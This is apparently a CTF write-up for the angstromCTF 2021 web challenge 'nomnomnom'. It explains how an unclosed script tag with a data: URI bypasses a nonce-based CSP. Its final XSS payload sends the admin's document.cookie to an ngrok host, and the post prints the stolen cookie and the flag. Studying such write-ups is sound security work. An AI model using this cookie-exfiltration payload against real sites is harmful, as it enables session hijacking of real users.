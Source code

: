 ```yaml
---
layout: post
title:  "nomnomnom - Web"
date:   2021-04-08 12:28:05 +0100
categories: writeups
---
```


```
Challenge: nomnomnom
Author: Shotokhan
Description: XSS with misconfigured CSP and page source
CTF: angstromCTF 2021
Category: Web
```

# Writeup
This Node.JS application comes with an interface with a game like the old video-game snake. Source code is provided.
After playing, you create a "share" with a POST request to /record, in which you send the share name and a score.
These parameters are "sanitized":
- name's maximum length is equal to 100;
- score must be a number greather than 1.
If everything goes well, you are redirected to /share/:shareName, where shareName is the hex representation of an 8-bytes UUID.
The resulting page is built like that:

{% highlight html %}
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		${extra}${extra ? '<br /><br />' : ''}
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of ${score}! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by ${name}
		<script nonce='${nonce}'>
            function report() {
                fetch('/report/${req.params.shareName}', {
                    method: 'POST'
                });
            }
            
            document.getElementById('reporter').onclick = () => { report() };
         </script> 
		
	</body>
</html>
{% endhighlight %}

You may have noticed the following variables: nonce, extra, score, name.
- "Score" and "name" were provided with the POST request to /record.
- "Nonce" is hex-16-bytes-UUID, for the CSP.
- "Extra" contains the flag if you made the request with admin's cookie.
This cookie is used by a "visiter" when you call /report/:shareName with a POST request, in fact that endpoint calls visit function.

{% highlight javascript %}
app.post('/report/:shareName', async function(req, res) {
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	await visiter.visit(
		nothisisntthechallenge,
		`http://localhost:9999/shares/${req.params.shareName}`
	);
})
{% endhighlight %}

Visiter code:

{% highlight javascript %}
async function visit(secret, url) {
	const browser = await puppeteer.launch({ args: ['--no-sandbox'], product: 'firefox' })
	var page = await browser.newPage()
	await page.setCookie({
		name: 'no_this_is_not_the_challenge_go_away',
		value: secret,
		domain: 'localhost',
		samesite: 'strict'
	})
	await page.goto(url)

	// idk, race conditions!!! :D
	await new Promise(resolve => setTimeout(resolve, 500));
	await page.close()
	await browser.close()
}
{% endhighlight %}

It's clear that our goal is to exploit an XSS vulnerability in order to get admin's cookie, and then to use that cookie to get the flag.
Let's try to do it using "name" parameter.
Well, with a CSP checker we can see that the policy specified is incomplete, and a script can be injected using the object tag, or maybe using a style tag.
We tried many things, testing them locally first, but browser's security mechanisms blocked us:
- an XSS payload injected in an object tag is in a sandbox, i.e. it can't access data outside the object (for example with window.parent.document we got errors regarding Same Origin Policy);
- we can force the admin to make arbitrary requests using XSS, but we need a CORS proxy to do that; it's important to note that cookie's domain is "localhost" and it has a "strict" same-site policy, so it will not be sent unless the request is made to localhost, and obviously you can't use a CORS proxy to make a request to localhost, and you can't make the request without the CORS proxy because it would have been blocked;
- we can try to inject code with the style tag (using background:url("...")) but the MIME type of the returned data is text/html, so not as expected, and it's blocked by another mechanism: CORB.
 
At last, we realized that in the resulting page there was no HTML between our user-provided name and the script tag with the nonce, so we tried with this payload:

{% highlight html %}
<script src="data:, alert(1);"
{% endhighlight %}

Without closing script tag, as you can see. In the resulting page:

{% highlight html %}
<script src="data:, alert(1);"
<script nonce='${nonce}'>
{% endhighlight %}

And in fact it gets executed; notice that this vulnerability is not about a misconfiguration of the CSP, but it is about the poor structure of the HTML doc.
At this point, we can inject an inline script, with an upper bound of 100 characters.
The idea is to send the cookie to webhook, but webhook.site's URL is too long, so we'll set-up ngrok and use the following payload:

{% highlight html %}
<script src="data:, location.replace('http://[redacted: 12 chars].ngrok.io/?d=' + document.cookie);"
{% endhighlight %}

We finally got the cookie:

```
no_this_is_not_the_challenge_go_away=2e04632b78960b03a01fbfbfdbbcf058dd9a64623ac6071c92f047ded9f06519320aed058149352636609e8d6c7faa4eabc88b320321d7f8dcc4c65f87c6690c
```

And this is the flag:
actf{w0ah_the_t4g_n0mm3d_th1ng5}
